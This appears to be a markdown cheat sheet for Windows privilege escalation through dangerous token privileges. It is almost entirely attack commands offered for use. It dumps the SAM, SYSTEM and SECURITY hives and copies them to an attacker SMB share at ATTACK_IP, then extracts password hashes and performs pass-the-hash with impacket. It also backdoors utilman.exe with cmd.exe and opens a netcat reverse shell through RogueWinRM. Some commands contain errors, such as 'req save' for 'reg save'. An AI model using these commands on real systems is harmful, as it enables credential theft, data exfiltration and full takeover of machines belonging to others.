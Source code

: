 # Privilege check command: whoami /priv

# Examples of dangerous privileges:

## SeBackup/SeRestore

#### 1: Backup SAM and SYSTEM hashes

#### req save hklm\system c:\users\user\system.hive

#### req save hklm\sam c:\users\user\sam.hive

#### 2: Create SMB Server on attacking machine

#### 1: mkdir share

#### 2: python3 impacket-smbserver.py -smb2support -username USER -password PASSWORD public share

#### 3: Copy backups to share folder

#### copy c:\users\user\sam.hive \\ATTACK_IP\public\

#### copy c:\users\user\system.hive \\ATTACK_IP\public\

#### 4: Retrieve hashes

#### python3 impacket-secretsdump.py -sam sam.hive -system system.hive LOCAL

#### 5: Pass-The-Hash Attack (PtH)

#### python3 impacket-psexec.py -hashes HASH administrator@TARGET_IP

#### TIP: We can also use evil-winrm for PtH attacks.

## Alternate Method to transfer the Hives: reg.py  remotely on Linux

 - python smbserver.py -smb2support share /tmp

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SAM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SYSTEM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SECURITY' -o '\\attacker ip\share'

## Alternate Method: SeBackupPrivilegeUtils https://github.com/giuliano108/SeBackupPrivilege

### Usage:

 - Import-Module .\SeBackupPrivilegeUtils.dll

 - Import-Module .\SeBackupPrivilegeCmdLets.dll

 - Set-SeBackupPrivilege

 - Get-SeBackupPrivilege



## SeTakeOwnership

#### Essentially, we can take ownership of a service running as SYSTEM and elevate privileges.

### Example: Utilman.exe

#### 1: takeown /f c:\windows\system32\utilman.exe

#### 2: icacls c:\windows\system32\utilman.exe /grant USER:F

#### 3: copy cmd.exe utilman.exe

#### 4: Trigger uitlman : Lock screen, click ease of access

## SeImpersonate/SeAssignPrimaryToken

### A lot of potato exploits work with these privileges, so in our example we will talk about RoguePotato.

#### RogueWinRM.exe exploit

#### 1: Start listener

#### c:\path\to\roguewinrm\roguewinrm.exe -p "C:\path\to\nc64.exe" -a "-e cmd.exe ATTACK_IP PORT"

## Tool: PrintSpoofer

## Link: https://github.com/itm4n/PrintSpoofer/releases/tag/v1.0
